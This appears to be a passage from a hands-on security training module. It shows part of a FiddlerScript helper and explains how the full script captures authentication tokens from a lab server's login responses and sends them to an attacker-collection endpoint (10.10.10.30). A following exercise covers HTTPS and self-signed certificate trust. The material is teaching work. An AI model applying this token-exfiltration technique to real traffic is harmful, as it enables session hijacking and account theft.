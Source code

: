 ```
        var Out = String.Empty;
        var req = System.Net.WebRequest.Create(Url + (System.String.IsNullOrEmpty(Data) ? "" : "?" + Data));

        try{
            var resp = req.GetResponse();
            var stream = resp.GetResponseStream();
            
            var sr = new System.IO.StreamReader(stream);
            
            Out = sr.ReadToEnd();
            sr.Close();
            stream.Close();
        }
        catch(e){ Out = e.ToString();            
            FiddlerObject.alert(Out);
        }
        return Out;
    }
 ``` 

The script above will first intercept any successful authentication response from the targeted server (`oSession.HostnameIs("10.10.10.10") && oSession.uriContains("/api/sessions") && oSession.responseCode == 200`).
When this happens, the authentication token will be collected from the response (`System.Text.Encoding.UTF8.GetString(oSession.responseBodyBytes)`) and sent to the attacker website in charge of collecting stolen information (`Handlers.HTTPGet("http://10.10.10.30/api/logs/add",queryString)`).


Exercise 4: See how the samples behave with HTTPS
-----

Before starting this exercise, make sure that Fiddler is NOT capturing HTTPS requests, then close it down.

The basic failing we're addressing in this module is that sensitive data is being passed using HTTP. HTTP gives us no confidence that the sensitive data has not been intercepted or tampered with, or indeed that we are actually talking to the right host. Those are the things that HTTPS provides, and happily the sample apps do support HTTPS, in a flawed way, as you'd expect.

Now is the time to make sure you have a firm grasp of what HTTPS is, and how (to a superficial level at least) it works. This should include an understanding of the handshake process, what certificates are, and how they are used and trust established. If you're not already there, start here, and go no further in this module until you've got it ;-)

[https://en.wikipedia.org/wiki/HTTPS](https://en.wikipedia.org/wiki/HTTPS)

[https://en.wikipedia.org/wiki/Transport\_Layer\_Security#Description](https://en.wikipedia.org/wiki/Transport\_Layer\_Security#Description)

[https://en.wikipedia.org/wiki/Public\_key\_certificate](https://en.wikipedia.org/wiki/Public\_key\_certificate)

The sample apps use self-signed certificates for the domains 10.10.10.10 and 10.10.10.20 respectively. These are not trusted by your browser, as there is no chain of trust back to a trusted root certification authority (they do have a public key, so they enable the confidentiality/integrity bits of HTTPS). If you request either sample in a modern browser it will complain at you about untrusted connections. So now you should arrange matters so that the certificates provided by the samples are trusted, and at this point I should reiterate that you should have a firm grasp of what certificates and trust are about.
